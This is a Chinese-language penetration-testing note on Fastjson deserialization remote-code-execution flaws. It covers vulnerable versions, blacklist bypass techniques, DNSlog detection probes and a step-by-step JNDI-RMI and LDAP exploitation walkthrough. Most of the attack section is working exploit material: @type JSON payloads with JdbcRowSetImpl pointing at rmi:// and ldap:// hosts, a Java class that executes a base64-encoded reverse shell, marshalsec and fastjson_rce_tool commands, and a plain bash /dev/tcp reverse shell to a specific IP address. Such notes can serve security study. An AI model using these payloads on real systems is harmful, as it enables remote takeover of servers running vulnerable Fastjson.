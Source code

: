 一款JSON解析器from阿里巴巴, 是一个JAVA库, 支持将Java Bean序列化为JSON字符串, 也可以反序列化. 可以操作任何Java对象, 即使是一些预先存在的没有源码的对象
[alibaba/fastjson Wiki (github.com)](https://github.com/alibaba/fastjson/wiki/Quick-Start-CN)

## 历史漏洞
```
Fastjson <=1.2.24 反序列化远程命令执行漏洞
Fastjson <=1.2.41 反序列化远程命令执行漏洞
Fastjson <=1.2.42 反序列化远程命令执行漏洞
Fastjson <=1.2.43 反序列化远程命令执行漏洞
Fastjson <=1.2.45 反序列化远程命令执行漏洞
Fastjson <=1.2.47 反序列化远程命令执行漏洞
Fastjson <=1.2.62 反序列化远程命令执行漏洞
Fastjson <=1.2.66 反序列化远程命令执行漏洞
```

- 在版本1.2.41中Alibaba修复了第一个出现的反序列化漏洞, 设置了`autoTypeSupport`属性默认为false, 并且增加了`checkAutoType()`函数, 通过黑白名单来过滤, 因此后面发现的FastJaon反序列化漏洞都针对黑名单绕过来实现攻击. `com.sun.rowset.jdbcRowSetlmpl`在1.2.25版本被添加了黑名单, 而FastJson解析JSON时, 会判断并加载类名以`L`开头, `;`结尾的类.
[Java安全之FastJson JdbcRowSetImpl 链分析 - nice_0e3](https://www.cnblogs.com/nice0e3/p/14776043.html)
```json
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;", "dataSourceName":"rmi://ip:9999/rce_1_2_24_exploit", "autoCommit":true}
```

- 在1.2.42中, 对收到的类名先去掉首尾的`L`和`;`, 再校验黑名单, 但是没有考虑双写或多写的情况
```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;", "dataSourceName":"rmi://ip:9999/rce_1_2_24_exploit", "autoCommit":true}
```

- 在小于1.2.47的版本中, `loadClass`中默认`cache`为true, 其首先使用`java.lang.Class`把获取到的类缓存到mapping中. 此时直接从缓存中获取对应类即可绕过黑名单
```json
{ "a": { "@type": "java.lang.Class",  "val": "com.sun.rowset.JdbcRowSetImpl" },  "b": { "@type": "com.sun.rowset.JdbcRowSetImpl",  "dataSourceName": "rmi://ip:9999/exp",  "autoCommit": true }}
```

[FastJson 启发式检测 | Yak Program Language (yaklang.io)](https://yaklang.io/products/article/yakit-technical-study/fast-Json/)

## 漏洞利用
出现JSON格式的地方(Content-Type, 请求体等), 就有可能使用了FastJson
- `java.net.InetAddress`在实例化时会尝试对`example.com`进行域名解析, 此时可以通过dnslog的方式得知漏洞是否存在
	- http://dnslog.cn/
	- https://www.callback.red/
	- https://github.com/AlphabugX/Alphalog
	- https://github.com/BugScanTeam/DNSLog
	- https://github.com/lanyi1998/DNSlog-GO
	- https://github.com/lijiejie/eyes.sh
```
# HTTP请求体
{
"name":{
    "@type":"java.net.InetAddress",
    "val":"mingy.qydzoe.dnslog.cn"
    }
}

{
"name":{
    "@type":"LLjava.net.InetAddress;;",
    "val":"mingy.qydzoe.dnslog.cn"
    }
}
```

### JNDI-RMI注入
Java Naming and Directory Interface, Java命名和目录接口, 是一组在Java应用中访问命名和目录服务的API, 命名服务将命名和对象连接起来
- RMI Java远程方法调用, 用于实现远程过程调用应用程序编程接口
- LDAP 轻量级目录访问协议
- CORBA 公共对象请求代理体系结构
- DNS 域名服务
https://github.com/mbechler/marshalsec
- 启动一个RMI服务器, 监听一个端口, 指定加载远程类`Exploit.class`
1. `mvn clean package -DskipTests` maven打包jar包
2. 编写并编译恶意代码
```Java
// javac Touch.java
import java.lang.Runtime;
import java.lang.Process;

public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuNzEuNDUuMjgvNDQzMyAwPiYx}|{base64,-d}|{bash,-i}");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```
3. python启动http服务, 托管编译的恶意类文件 `python3 -m http.server 8000
4. 启动RMI, 加载指定类 `java -cp maechalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://<ATTACKER-IP>/#Touch" 9999`
5. 发送EXP
```JSON
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://<ATTACKER-IP>:9999/Exploit",
        "autoCommit":true
    }
}
```
6. 可以使用Python编写脚本, 写定HTTP header 的所有内容并发送到指定节点, 使用try-except 判定是否成功
- 也可以直接使用工具 https://github.com/wyzxxz/fastjson_rce_tool.git, 启动并执行需要的命令, 可以直接配置服务并生成payload, 将payload发送至目标主机即可
```
java -cp fastjson_tool.jar fastjson.HRMIServer <ATTACKER-IP> 9999 "<COMMAND>"
```
- 当使用反弹shell等命令时, 编码, 管道符, 输入输出重定向只有在bash环境下才能使用, 而此处环境为java提供, 因此需要base64编码. 加载时使用字节码Object
```shell
bash -i >& /dev/tcp/124.71.45.28/6666 0>&1

java -cp fastjson_tool.jar fastjson.HRMIServer 124.71.45.28 9999 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuNzEuNDUuMjgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}"

"dataSourceName":"rmi://124.71.45.28:9999/Object"

```

### JNDI-LDAP注入
LDAP基于X.500标准, 轻量级目录访问协议, 呈树状结构组织数据
```shell
java -cp fastjson_tool.jar fastjson.HLDAPServer 124.71.45.28 9999 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuNzEuNDUuMjgvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}"
```
```JSON
{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://124.71.45.28:9999/Object","autoCommit":true}}
```